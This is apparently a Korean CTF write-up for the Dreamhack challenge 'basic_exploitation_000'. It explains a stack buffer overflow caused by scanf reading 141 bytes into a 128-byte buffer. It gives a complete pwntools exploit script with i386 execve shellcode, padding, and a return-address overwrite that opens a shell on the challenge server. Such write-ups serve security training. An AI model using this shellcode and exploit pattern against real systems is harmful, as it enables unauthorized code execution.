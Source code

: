 basic_exploitation_000 라이트업
===============


<img width="378" height="653" alt="image" src="https://github.com/user-attachments/assets/ab52834a-c7f8-4330-9427-a4e578d70224" />

main 함수를 보면 char 배열 buf에 0X80 바이트를 할당해준다. 이후 initialize 함수를 실행하는데 함수를 보면

```c
    signal(SIGALRM, alarm_handler);
    alarm(30);
```

    
프로세스가 30초가 지나면 자동으로 alarm_handler 함수를 실행하여 프로세스가 종료된.

```c
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);
```
    
여기서는 스택에서 buf가 위치한 주소를 출력해주고 buf에 최대 141바이트 문자열을 입력받는다. 
buf에는 0x80 = 128바이트만이 할당되어있다. 따라서 버퍼 오버플로우가 발생함을 확인할 수 있다.

buf를 아무런 값으로 채우고 ret를 덮어서 셸을 실행시키는 기능이 있는 셸코드를 실행하면 된다. 

채워야 하는 부분은 rbp-0x80 부터 rbp +0x04 니까 0x84 = 132바이트이다.    

scanf 우회 셸코드 (26바이트) 는 구글링해서 알아냈다. 나머지 132 - 26 = 106 바이트는 아무값으로만 채우면 된다.

### 익스플로잇 코드

```python
from pwn import *

p = remote("host8.dreamhack.games",11801)
context.arch = "i386"  

p.recvuntil("buf = (")
buf_addr = int(p.recv(10),16) 

payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
payload += b"\x11" * 106

payload += p32(buf_addr)

p.sendline(payload)
p.interactive()
```

틀리기 쉬운 부분들을 잘 보면

* `payload += b"\x11" * 106` : \x11이라는 바이트를 패딩 문자로 사용했다. `scanf` 는 널 바이트(\x00)를 만나면 문자열 읽기를 중단하는데 \x11은 널 바이트가 아니므로 scanf가 페이로드 전체를 읽을 수 있게 해준다.
*  payload += p32(buf_addr): 셸코드와 패딩 뒤에 buf의 주소를 붙여 최종적으로 프로그램이 돌아갈 리턴 주소를 덮어쓴다. scanf가 페이로드 전체를 읽기 때문에 이 주소 값이 스택에 정확히 쓰여 익스플로잇을 성공시킨다.


### 실행 결과

<img width="636" height="220" alt="image" src="https://github.com/user-attachments/assets/664316f9-acc5-4c82-b91b-f385f4aa66a5" />

이렇게 플래그를 얻어낼 수 있다.


